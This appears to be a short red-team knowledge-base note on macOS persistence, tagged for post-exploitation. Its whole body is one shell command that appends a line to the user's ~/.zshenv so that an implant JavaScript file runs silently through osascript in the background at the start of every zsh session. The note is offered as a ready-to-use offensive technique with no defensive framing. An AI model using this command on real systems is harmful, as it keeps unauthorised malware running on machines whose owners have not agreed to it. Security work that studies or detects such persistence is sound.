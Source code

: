```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - osx
credits:
  - D00MFist
---
```

# Zsh Profiles

```
$ echo "setopt LOCAL_OPTIONS NO_MONITOR; nohup osascript -l JavaScript /path/to/implant.js > /dev/null 2>&1 &" >> ~/.zshenv
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Persistence/OSX/Autostart Locations]]